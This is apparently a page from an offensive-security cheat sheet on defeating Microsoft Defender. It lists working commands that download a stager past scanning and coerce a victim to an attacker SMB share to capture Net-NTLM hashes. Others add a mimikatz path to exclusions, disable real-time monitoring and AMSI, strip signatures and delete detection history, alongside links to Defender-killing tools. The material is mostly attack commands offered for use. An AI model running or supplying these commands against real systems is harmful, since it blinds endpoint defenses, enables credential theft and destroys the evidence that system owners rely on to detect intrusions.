 ```yaml
---
description: Microsoft Defender
---
```


# Defender

- [https://github.com/0xsp-SRD/MDE_Enum](https://github.com/0xsp-SRD/MDE_Enum)

Download stager without triggering Defender to scan it:

```
PS > .\MpCmdRun.exe -DownloadFile -Url http://127.0.0.1/met.exe -Path C:\Users\user\music\met.exe
```

Coerce the victim machine to reach the attacker (to steal Net-NTLM):

```
Cmd > C:\PROGRA~1\WINDOW~1\MpCmdRun.exe -Scan -ScanType 3 -File '\\10.10.13.37\share\file'
```




## Exclusions

- [https://blog.fndsec.net/2024/10/04/uncovering-exclusion-paths-in-microsoft-defender-a-security-research-insight/](https://blog.fndsec.net/2024/10/04/uncovering-exclusion-paths-in-microsoft-defender-a-security-research-insight/)
- [https://github.com/Friends-Security/SharpExclusionFinder](https://github.com/Friends-Security/SharpExclusionFinder)

Add path to exclusions:

```
PS > $mimi = "C:\Users\user\music\mimi\x64\mimikatz.exe"
PS > Add-MpPreference -ExclusionPath $mimi -AttackSurfaceReductionOnlyExclusions $mimi
```

Test path for an exclusion:

```
PS > & "C:\Program Files\Windows Defender\MpCmdRun.exe" -Scan -ScanType 3 -File "C:\folder_to_check\|*"
```




## Disable Defender

- [https://github.com/mandiant/commando-vm#pre-install-procedures](https://github.com/mandiant/commando-vm#pre-install-procedures)
- [https://github.com/swagkarna/Defeat-Defender-V1.2](https://github.com/swagkarna/Defeat-Defender-V1.2)
- [https://github.com/APTortellini/DefenderSwitch](https://github.com/APTortellini/DefenderSwitch)
- [https://github.com/dosxuz/DefenderStop](https://github.com/dosxuz/DefenderStop)
- [https://gist.github.com/fiercebrute/46e0636c0eaf72dcd3df4e280b6792d6](https://gist.github.com/fiercebrute/46e0636c0eaf72dcd3df4e280b6792d6)
- [http://www.wxxy-sec.com/?p=154](http://www.wxxy-sec.com/?p=154)

- gpedit.msc > *Administrative Templates* > *Windows Components* > *Microsoft Defender Antivirus* > *Real-time Protection* > *Turn off real-time protection* > *Enabled* ✔
- gpedit.msc > *Administrative Templates* > *Windows Components* > *Microsoft Defender Antivirus* > *Turn off Microsoft Defender Antivirus* > *Enabled* ✔

Disable real-time protection (proactive):

```
PS > Set-MpPreference -DisableRealTimeMonitoring $true
```

Disable scanning all downloaded files and attachments, disable AMSI (reactive):

```
PS > Set-MpPreference -DisableIOAVProtection $true
```

Remove signatures (if Internet connection is present, they will be downloaded again):

```
PS > cd "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0"
PS > .\MpCmdRun.exe -RemoveDefinitions -All
Or
Cmd > "%PROGRAMFILES%\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```

Clear threats history manually:

```
Cmd > del /S "C:\ProgramData\Microsoft\Windows Defender\Scans\History\Service\DetectionHistory\*"
```




## Lower Token Integrity

- [https://elastic.github.io/security-research/whitepapers/2022/02/02.sandboxing-antimalware-products-for-fun-and-profit/article/](https://elastic.github.io/security-research/whitepapers/2022/02/02.sandboxing-antimalware-products-for-fun-and-profit/article/)
- [https://github.com/plackyhacker/SandboxDefender](https://github.com/plackyhacker/SandboxDefender)
- [https://github.com/pwn1sher/KillDefender](https://github.com/pwn1sher/KillDefender)
- [https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools)
